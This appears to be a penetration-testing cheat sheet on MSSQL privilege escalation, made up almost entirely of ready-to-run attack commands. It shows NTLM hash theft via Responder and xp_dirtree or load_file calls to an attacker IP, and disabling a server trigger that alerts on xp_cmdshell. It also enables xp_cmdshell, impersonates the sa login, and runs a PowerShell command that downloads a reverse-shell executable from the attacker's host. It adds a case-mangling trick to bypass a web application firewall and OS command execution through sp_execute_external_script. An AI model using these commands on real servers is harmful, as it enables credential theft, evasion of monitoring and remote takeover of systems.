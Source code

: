 ```yaml
---
title: "MSSQL Privilege Escalation"
date: 2024-6-27
tags: ["mssql", "database", "Windows", "exploit", "rce", "privesc", "pe"]
---
```


### Abuse #1: Steal NTLM hash

```console
# In our local Linux machine
sudo responder -I tun0
```

{{< tab set1 tab1 active >}}Method 1{{< /tab >}}
{{< tab set1 tab2 >}}Method 2{{< /tab >}}
{{< tab set1 tab3 >}}Method 3{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
xp_dirtree '\\<LOCAL_IP>\any\thing';
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
use master; exec xp_dirtree '\\<LOCAL_IP>\any\thing';
```

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
load_file('\\<LOCAL_IP>\any\thing');
```

{{< /tabcontent >}}

### Abuse #2: Run xp_cmdshell

```console
# Check any policy blocking xp_cmdshell
select name from sys.server_triggers;
```

```console
# Disable trigger if any
disable trigger ALERT_xp_cmdshell on all server;
```

```console
# Enable xp_cmdshell
enable_xp_cmdshell;
```

```console
# RCE
xp_cmdshell whoami
```

### Abuse #3: Impersonate sa to run xp_cmdshell

```console
execute as login = 'sa'; exec sp_configure 'show advanced options', 1;
```

```console
execute as login = 'sa'; reconfigure;
```

```console
execute as login = 'sa'; exec sp_configure 'xp_cmdshell', 1;
```

```console
execute as login = 'sa'; reconfigure;
```

```console
execute as login = 'sa'; EXEC master..xp_cmdshell 'powershell.exe -ep bypass curl <LOCAL_IP>/rev.exe -o C:\ProgramData\rev.exe'
```

<small>*Note: try xp_cmDshElL to bypass WAF*</small>

### Abuse #4: Run External Script

```console
EXEC sp_execute_external_script @language =N'Python', @script = N'import os; os.system("whoami");';
```
